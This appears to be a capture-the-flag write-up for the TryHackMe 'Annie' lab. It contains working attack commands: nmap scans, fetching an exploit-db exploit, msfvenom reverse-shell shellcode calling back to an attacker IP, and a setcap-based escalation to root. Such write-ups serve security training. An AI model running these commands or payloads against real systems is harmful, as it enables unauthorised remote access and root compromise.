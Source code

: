 ```http
https://tryhackme.com/room/annie
```

> [!info]
> Remote access comes in different flavors.

___
# Recon
## Nmap

```bash
sudo nmap -p- -T5 -Pn 10.10.10.180  -vv 
```

```resoults
Discovered open port 22/tcp on 10.10.10.180
Discovered open port 7070/tcp on 10.10.10.180
```

```bash
sudo nmap -p22,7070 -sC -sV 10.10.10.180  -O
```

```resoults
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  realserver?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Running: Linux 4.X
```

___
![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/20250518010808.png)
___
## serachsploit
```bash
searchsploit realserver 
```

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/20250518011049.png)

```
RealServer - Describe Buffer Overflow (Metasploit)                                                    multiple/remote/16286.rb
RealServer 5.0/6.0/7.0 - Memory Contents Disclosure                                                   multiple/remote/20406.txt
RealServer 7-9 - Describe Buffer Overflow (Metasploit)                                                multiple/remote/9937.rb
RealServer < 8.0.2 (Windows Platforms) - Remote Overflow   
windows/remote/23.c
```
___
```http
https://www.exploit-db.com/exploits/16286
```
___
## Search Google
![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518011510.png)

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518011613.png)
![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518011655.png)

## Maybe exploit
```http
https://www.exploit-db.com/exploits/49613
```
___
# Exploitation

```bash
wget https://www.exploit-db.com/download/49613
```

```bash
chmod +x 49613
```

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.3.21 LPORT=1337 -b "\x00\x25\x26" -f python -v shellcode
```

```resoults
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xb1\xd5\xf7"
shellcode += b"\xe3\xe6\xc1\xa4\xa3\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xdb\xfc\xaf\x7a\x8c"
shellcode += b"\xc3\xfb\xc9\xb0\x8b\xf8\xe6\xae\x56\xec\x1a"
shellcode += b"\xb3\xd5\xf2\xda\xec\xc8\xa7\xb6\xe0\x9d\x7e"
shellcode += b"\x05\x8c\xd1\xfe\xc9\x9b\x8d\xf8\xe6\x8c\xc2"
shellcode += b"\xfa\xeb\x4e\x1b\x9d\xc2\xbe\xce\xa1\xd6\x47"
shellcode += b"\xbf\xcc\xbb\x7f\x89\x1f\x8c\xd3\xbc\x99\xcc"
shellcode += b"\x95\xa9\xa4\xf0\xf9\x5c\x10\xb1\xb1\x89\x2d"
shellcode += b"\x45\xbe\xd0\xf7\xe3\xe6\xc1\xa4\xa3"
```

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518012850.png)
### Check problem
![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518013507.png)
![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518013905.png)

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518014143.png)

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/250518015249.png)

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/250518015157.png)

> [!warning]
> It turns out that the connection is accepted with UDP). In the exploit, only change the shellcode and IP

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/250518015920.png)
___
# LPE

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![annie](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/annie/screenshots/0250518020402.png)

## SUID
```bash
find / -type f -perm -4000 2>/dev/null
```

```bash
cp /usr/bin/python3 /home/annie/python3
```

```bash
setcap cap_setuid+ep /home/annie/python3
```

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
